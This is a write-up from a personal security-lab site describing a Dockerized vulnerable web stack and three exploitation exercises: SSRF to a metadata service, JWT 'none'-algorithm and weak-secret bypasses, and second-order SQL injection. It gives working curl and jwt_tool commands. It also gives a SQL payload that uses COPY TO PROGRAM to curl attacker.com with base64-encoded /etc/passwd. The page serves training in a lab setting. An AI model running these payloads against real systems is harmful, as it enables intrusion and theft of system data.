

## 🌐 Containerized Web Security Labs

The Web Application Security Labs comprise multiple isolated Docker containers running web backend stacks. By hosting these vulnerable services in private networks, I can safely perform penetration testing, audit source code, and create reliable proof-of-concept scripts.



### 📋 Stack Components

*   **Reverse Proxy Gateway**: Nginx container handling rate-limiting and route sanitization simulation.
*   **Vulnerable Backend API**: Node.js/Express application implementing weak authorization schemes, unvalidated parameters, and poor file sanitization algorithms.
*   **Database Management System**: PostgreSQL service container isolated on an internal Docker bridge network containing simulated corporate databases.
*   **Internal Microservices**: An isolated Python Flask service simulating sensitive internal administration panels, only accessible from within the bridge network interface.

---

## 💥 Lab Challenges & Exploitation Scenarios

### 1. SSRF to Internal Metadata Service
*   **Root Cause**: The backend API provides an image import feature (`/api/v1/import?url=...`) which performs outbound HTTP requests to fetch graphics. The validation checks fail to parse redirects or DNS changes correctly.
*   **Exploitation Scenario**: An attacker issues a request containing an URL that redirects back to local network services or queries the mock internal metadata server (`http://169.254.169.254/`).
*   **Reproduction commands**:
    ```bash
    # Payload requesting image import redirecting to metadata service
    curl -X POST "https://weblab.local/api/v1/import" \
         -H "Content-Type: application/json" \
         -d '{"url": "http://evil-server.com/redirect-to-metadata"}'
    ```

### 2. JWT Signature Verification Bypasses
*   **Root Cause**: The authentication middleware accepts JSON Web Tokens (JWT) signed with the `none` algorithm or uses a weak secret string susceptible to offline dictionary brute-forcing.
*   **Exploitation Scenario**: Recover the JWT key using `jwt_tool` or modify the header field `"alg": "none"` to impersonate administrative user roles.
*   **Reproduction commands**:
    ```bash
    # Brute-forcing weak JWT secret key using wordlists
    jwt_tool.py <JWT_TOKEN> -C -d wordlist.txt
    
    # Exploit header modification to none
    jwt_tool.py <JWT_TOKEN> -X a
    ```

### 3. Second-Order SQL Injection
*   **Root Cause**: A registration endpoint collects profile inputs and inserts them using parameterized queries. However, a reporting engine fetches this data later and concatenates it directly into dynamic PostgreSQL query strings.
*   **Exploitation Scenario**: Register an account with a username payload containing SQL queries. Once the administrator views the statistics dashboard, the query triggers, dumping database contents or executing OS shell commands via `COPY ... FROM PROGRAM`.
*   **Payload Example**:
    ```sql
    '; COPY (SELECT * FROM users) TO PROGRAM 'curl http://attacker.com/?data=$(base64 -w0 /etc/passwd)'; --
    ```

---

### 🔗 Back to Hub
- [Return to Security Labs Hub]({{ '/labs/' | relative_url }})
